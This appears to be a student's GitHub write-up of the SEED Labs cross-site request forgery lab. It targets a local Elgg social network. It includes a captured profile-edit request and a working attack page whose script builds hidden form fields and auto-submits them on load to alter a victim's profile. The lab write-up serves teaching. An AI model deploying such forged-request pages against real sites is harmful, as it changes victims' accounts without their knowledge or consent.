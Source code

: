 # CSRF-Attack-lab08
# Cross-Site-Request-Forgery
Cross site request forgery


Instruction: https://seedsecuritylabs.org/Labs_16.04/PDF/Web_CSRF_Elgg.pdf
# Lab Enviroment
- Attacker ```10.0.2.15```
- Server  ```10.0.2.4```

Edit the DNS records in ```/etc/hosts``` on both the attacker and the server:
```
10.0.2.4       www.csrflabelgg.com
10.0.2.15       www.csrflabattacker.com
```
# Task 1
Create a web page as msg.html:
```
<html>
    <body>
        <h1>This is attack</h1>
    </body>
</html>

```

And put it into ```/var/www/CSRF/Attacker``` folder.

![alt text](https://github.com/Qurat-ul-ainn/CSRF-Attack-lab08/blob/main/1.PNG)

Then, send Alice a message that contains the URL: http://www.csrflabattacker.com/msg.html
as if Alice click on the link our ``` msg.html```  execute

![alt text](https://github.com/Qurat-ul-ainn/CSRF-Attack-lab08/blob/main/2.PNG)

# Task 2
Observe a legitimate profile save request:
 ```
 Request URL: http://www.csrflabelgg.com/action/profile/edit
__elgg_token=7B0nt3O7twQOHOELADFNtg
__elgg_ts=1589772059
name=Alice
description=<p>dasdsa</p>


accesslevel[description]=2
briefdescription
accesslevel[briefdescription]=2
location
accesslevel[location]=2
interests
accesslevel[interests]=2
skills
accesslevel[skills]=2
contactemail
accesslevel[contactemail]=2
phone
accesslevel[phone]=2
mobile
accesslevel[mobile]=2
website
accesslevel[website]=2
twitter
accesslevel[twitter]=2
guid=42
 
 ```
 Create a malicious web page as ```profile.html```:
 ```
 <html>

<body>
    <h1>This page forges an HTTP POST request.</h1>
    <script type="text/javascript">
        function forge_post() {
            var fields;
            // The following are form entries need to be filled out by attackers.
            // The entries are made hidden, so the victim won't be able to see them.
            fields += "<input type='hidden' name='name' value='Alice'>";
            fields += "<input type='hidden' name='briefdescription' value='Boby is my hero'>";
            fields += "<input type='hidden' name='accesslevel[briefdescription]' value = '2'>";
            fields += "<input type='hidden' name='guid' value='42'>";
            // Create a <form> element.
            var p = document.createElement("form");
            // Construct the form
            p.action = "http://www.csrflabelgg.com/action/profile/edit";
            p.innerHTML = fields;
            p.method = "post";
            // Append the form to the current page.
            document.body.appendChild(p);
            // Submit the form
            p.submit();
        }
        // Invoke forge_post() after the page is loaded.
        window.onload = function () { forge_post(); }
    </script>
</body>

</html>
 ```

And then place it into /var/www/CSRF/Attacker folder. So it can be accessed via http://www.csrflabattacker.com/profile.html.
 
![alt text](https://github.com/Qurat-ul-ainn/CSRF-Attack-lab08/blob/main/3.PNG)
 
Now send this URL to Alice, if she clicks and opens the website, it will forge an HTTP POST request to edit her ```brief description``` in profile page. After that, you can see her profile page is updated as:

![alt text](https://github.com/Qurat-ul-ainn/CSRF-Attack-lab08/blob/main/4.PNG)
